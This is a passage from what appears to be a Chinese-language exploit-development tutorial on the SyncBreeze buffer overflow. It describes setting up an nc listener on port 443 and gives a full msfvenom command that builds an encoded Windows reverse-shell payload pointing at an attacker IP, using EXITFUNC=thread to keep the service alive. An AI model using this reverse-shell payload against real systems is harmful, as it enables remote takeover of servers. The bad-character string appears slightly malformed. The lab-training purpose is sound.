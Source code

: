 一个终端开启nc监听443端口，一个终端执行脚本：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605374211076-29f3901b-2e36-4d0d-9d0f-8d05668e829f.png)

### 提高这个exploit

Metasploit shell代码执行后的默认退出方法是ExitProcess API。当反向shell终止时，此退出方法将关闭整个web服务进程，有效地杀死SyncBreeze服务并导致其崩溃。

如果我们正在利用的程序是一个线程化的应用程序，在这种情况下，我们可以尝试通过使用ExitThread API来避免服务完全崩溃，这只会终止受影响的程序线程。这将使我们的攻击工作，而不会中断SyncBreeze服务器的正常操作，并将允许我们重复利用服务器和退出shell，而不会关闭服务。

为了指示msfvenom在shellcode生成过程中使用ExitThread方法，我们可以使用EXITFUNC=thread选项，如下面的命令所示:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.211.55.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"
```

大家可以自己结合之前的步骤试验一下。